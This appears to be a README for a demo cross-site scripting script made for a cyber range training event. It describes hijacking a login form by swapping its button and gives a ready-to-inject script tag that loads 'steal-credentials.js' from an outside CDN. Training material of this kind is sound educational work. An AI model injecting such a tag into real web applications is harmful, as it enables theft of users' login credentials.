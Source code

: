 # Introduction

This script is intended for educational purposes only, and was created as supplemental material for a cyber range event. This code does not perform any actual malicious code, and should not be used for malicious purposes.

This is a demo XSS script that can be injected into a vulnerable web application by XSS reflection. The script will grab the login form, delete the original login button, and create a new button with a demo "malicious" script attached to it.

# To use

The script can be referenced from a script tag using jsdelivr CDN:

<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/barrcodes/xss@[optional commit hash]/steal-credentials.js"></script>

